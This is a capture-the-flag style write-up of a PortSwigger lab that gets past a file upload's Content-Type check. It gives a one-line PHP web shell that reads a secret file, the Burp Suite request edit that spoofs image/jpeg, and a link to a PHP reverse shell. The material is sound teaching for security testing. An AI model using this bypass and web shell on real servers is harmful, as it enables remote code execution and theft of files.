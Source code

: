 # File Uploads: Content-type restriction

## Introduction
In the wild, it's unlikely that you'll find a website that has no protection against file upload attacks like we saw in the Unrestricted-file-upload lab. But just because defenses are in place, that doesn't mean that they're robust. You can sometimes still exploit flaws in these mechanisms to obtain a web shell for remote code execution. 


## Table of Contents

- [File Uploads: Unrestricted File Uploads!](#file-uploads-unrestricted-file-uploads)
  - [Introduction](#Introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)


## How to identify

From a security perspective, the worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code. This makes it trivial to upload your own web shell on the server. 

- [link for example webshell exploits](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

**Upload Section** :
Any type of upload can possibly have a upload vulnerability. Make sure you remember this when you encounter a upload section in real life.



## Code/tools/websites

### Tools
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.

### Websites
> https://portswigger.net/web-security/file-upload
> https://ctf.hackthebox.com/ 


## Sample problem

### Problem Statement
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret.


- [Link to the Problem](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

### Solution
Here we have a upload section under My Accounts tab to upload the Avatar.
We use burpsuite proxy here to intercept the Requests. 

- **Initial Request for JPG**:
The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping. 
  ```
  Content-Disposition: form-data; name="avatar"; filename="filename.jpg"
  Content-Type: image/jpeg
  ``` 

- **Restriction with MIME type**:
Now, if we try to upload a .php file with the following contents:
  ```php
   <?php echo file_get_contents('/home/carlos/secret'); ?>
  ```
we get this 
  ```
  Sorry, file type application/x-php is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
  ```

- **The difference**:
 Here we change the Content-Type to image/jpeg in burpsuite.
   ```
  Content-Disposition: form-data; name="avatar"; filename="exploit.php"
  Content-Type: image/jpeg
  ``` 

- **done**:
Now just use GET in the repeater in burpsuite to get the flag!!


## References

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/file-upload)


## Conclusion
In this section, We learned about a flaw in validation and exploitation of it..
